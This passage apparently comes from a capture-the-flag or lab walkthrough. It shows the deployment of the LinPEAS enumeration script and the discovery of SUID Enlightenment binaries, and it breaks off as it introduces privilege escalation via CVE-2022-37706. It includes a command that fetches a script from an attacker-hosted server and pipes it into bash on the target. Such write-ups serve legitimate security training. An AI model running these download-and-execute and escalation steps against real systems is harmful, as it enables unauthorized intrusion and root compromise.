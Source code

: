 ### LinPEAS Deployment

Hosting the script on the attacking machine:

```bash
python3 -m http.server 3000
```

Downloading and executing on the target:

```bash
curl http://10.10.14.41:3000/linpeas.sh | bash
```

### Results Analysis

LinPEAS identifies several interesting SUID binaries:

<div class="bg-red-50 dark:bg-red-900/20 p-5 rounded-xl shadow-lg my-4 border-l-4 border-red-500">
    <h4 class="text-xl font-bold mb-4 text-red-600 dark:text-red-400 flex items-center">
        <i class="fas fa-exclamation-triangle mr-2"></i>Suspicious SUID Binaries Detected
    </h4>
    <div class="bg-gray-100 dark:bg-gray-800 p-4 rounded font-mono text-sm space-y-2">
        <div class="text-red-600 dark:text-red-400">
            -rwsr-xr-x 1 root root 27K /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
        </div>
        <div class="text-amber-600 dark:text-amber-400">
            -rwsr-xr-x 1 root root 15K /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
        </div>
    </div>
</div>

<div class="bg-red-100 dark:bg-red-900/20 border-l-4 border-red-500 p-4 my-4 rounded-r-lg">
    <p class="text-red-800 dark:text-red-200">
        <i class="fas fa-search mr-2 text-red-500"></i>
        <strong>Escalation Vector Identified:</strong> The <code class="bg-red-200 dark:bg-red-800 px-2 py-1 rounded">enlightenment_sys</code> binary has three suspicious characteristics:
    </p>
    <ul class="mt-3 ml-6 space-y-1 text-red-700 dark:text-red-300">
        <li><strong>SUID bit enabled</strong> → executes with root privileges</li>
        <li><strong>Non-standard binary</strong> → potentially vulnerable</li>
        <li><strong>Unknown version</strong> → requires CVE verification</li>
    </ul>
</div>

## 👑 Phase 8 — Privilege Escalation via CVE-2022-37706

### Vulnerability Analysis

<div class="bg-red-50 dark:bg-red-900/20 p-6 rounded-xl border-l-4 border-red-500 my-4">
    <h4 class="text-xl font-bold text-red-600 dark:text-red-400 mb-3 flex items-center">
        <i class="fas fa-bug mr-2"></i>CVE-2022-37706 - Enlightenment Path Traversal
    </h4>
    <div class="space-y-2 text-gray-700 dark:text-gray-300">
        <div class="grid md:grid-cols-2 gap-4">
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">Affected Versions:</span> Enlightenment &lt; 0.25.4
            </div>
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">Type:</span> Local Privilege Escalation
            </div>
        </div>
        <div>
            <span class="font-semibold text-red-600 dark:text-red-400">CVSS Score:</span> 7.8 (High)
        </div>